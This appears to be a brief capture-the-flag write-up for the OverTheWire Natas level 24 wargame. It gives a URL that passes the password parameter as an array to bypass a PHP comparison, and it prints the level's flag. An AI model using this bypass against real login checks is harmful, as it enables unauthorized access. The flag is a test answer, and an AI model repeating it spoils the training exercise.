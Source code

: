 ```yaml
---
layout: default
title: natas24
---
```




this is the url `http://natas24.natas.labs.overthewire.org/?passwd[]=%27%27`

It interprets passwd as an array where passwd[0] = ''
then, it crashed and pass the check.

**Flag:** ***`ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws`*** 